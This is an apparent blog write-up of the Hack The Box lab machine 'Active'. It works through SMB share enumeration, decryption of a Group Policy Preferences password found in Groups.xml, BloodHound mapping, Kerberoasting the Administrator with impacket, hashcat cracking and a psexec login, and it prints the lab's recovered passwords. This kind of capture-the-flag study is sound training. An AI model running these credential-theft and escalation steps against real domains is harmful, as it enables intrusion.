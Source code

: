 ```yaml
---
layout: post
title: My first writeup! Hack The Box, Active
tags: [hackthebox, Active Directory, Bloodhound, hashcat, GPP]
---
```


```
![logo](/boxes/htb/active/activeDirectory.png)
```

### i. Port Scan
```
![nmap portscan](/boxes/htb/active/nmap.png)
```
### ii. Enumeration
SMB ports were listed open on the nmap scan. Let's check if any shares are available with smbclient and smbmap.
```
smbclient -L 10.10.10.100
smbmap -H 10.10.10.100
```
smbclient:
```
![smbclient](/boxes/htb/active/smbclient.png)
```
smbmap:
```
![smbmap](/boxes/htb/active/smbmap.png)
```
smbmap reveals a file share called Replication with read only permissions. Smbmap can be used to list the contents of the Replication directory:
```
smbmap -R Replication -H 10.10.10.100
```
Looking through the contents of the Replication directory there is a file called Groups.xml. This is a group policy file where local account information is typically stored for older Active Directory implementations.
```
![ReplicationFiles](/boxes/htb/active/groupsxml.png)
```
To download the file we use:
```
smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q
```
Taking a look at the Groups.xml file, an account `SVC_TGS` and `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH` encyrpted password was found. This password is encrypted with a known key:
```
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be
![msftknownkey](image)
```
```
![groups.xmlhash](/boxes/htb/active/grouphash.png)
```
To decrpyt the password, we use gpp-decrpyt:
```
![gppdecrypt](/boxes/htb/active/gppdecrypt.png)
```
The decrypted hash is `GPPstillStandingStrong2k18`
Using the credentials we found we enumerate more shares
```
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100
```
![moreshares](/boxes/htb/active/)

The user flag was found under `SVC_TGS\Desktop\`

Now that we have credentials, let's Bloodhound the box. We switch to a windows vm and get a command prompt with the following command:
```
runas /netonly /user:active.htb\svc_tgs cmd
```
Make sure to check your DNS settings on your network adapter and set it to 10.10.10.100. Run sharphound with the following command to gather information:
```
sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100
```
We then drag and drop the zip file created from sharphound into the user interface of Bloodhound on our Kali machine. Checking for domain admin did not reveal anything. Checking for kerberoasting, the user `ADMINISTRATOR` is available for this attack.
![kerberoasting](image)
Using GetUserSPN.py from impacket we will grab the hash of `ADMINISTRATOR`
```
GetUserSPN.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![adminhash](image)
We copy the hash into a file and use hashcat to crack the hash via the following command:
```
hashcat -m 13100 hash.txt rockyou.txt 
```
![crackedhash](image)
The Administrator password is: `Ticketmaster1968`

Now we can use psexec and log into the box and get the root flag
```
psexec.py active.htb/Administrator@10.10.10.100
```
![rootflag](image)
